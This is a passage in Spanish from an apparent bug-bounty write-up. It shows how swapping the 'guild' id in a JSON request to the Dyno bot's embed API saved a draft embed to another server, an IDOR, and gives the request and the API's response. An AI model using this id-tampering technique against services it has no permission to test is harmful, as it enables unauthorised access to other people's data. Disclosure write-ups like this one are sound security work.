 Esto sigue el mismo esquema JSON de la sección en la que encontré un IDOR hace un año ya en el post anterior:

```json
{
    "message":
    {
        "guild":"<id>",
        "channel":"<id>",
        "message":false,
        "name":"Some embed",
        "time":"2025-01-08T14:16:33.487Z",
        "embed":{
            "title":"Some embed",
            "description":"Some embed"
        },
        "save":true,
        "send":false
    }
}
```

Al cambiarle el campo `guild` a la id de otro servidor mientras dejo el `send` en `false` y enviar la petición, la API me respondió con:

```json
{
    "message":
    {
        "_id":"<bson-id>",
        "guild":"<other-guild-id>",
        "channel":"<channel-id>",
        "message":"draft-1736349918411",
        "name":"Some embed",
        "time":"2025-01-08T14:19:17.681Z",
        "embed":{
            "title":"Some embed",
            "description":"Some embed"
        },
        "__v":0
    }
}
```

y el mensaje que se supone, debió haberse guardado, no aparecía en mi dashboard... pero viendo el del otro servidor:

![Dyno uh](/assets/posts/bots_bounty2/dyno_embedder_idor.png)
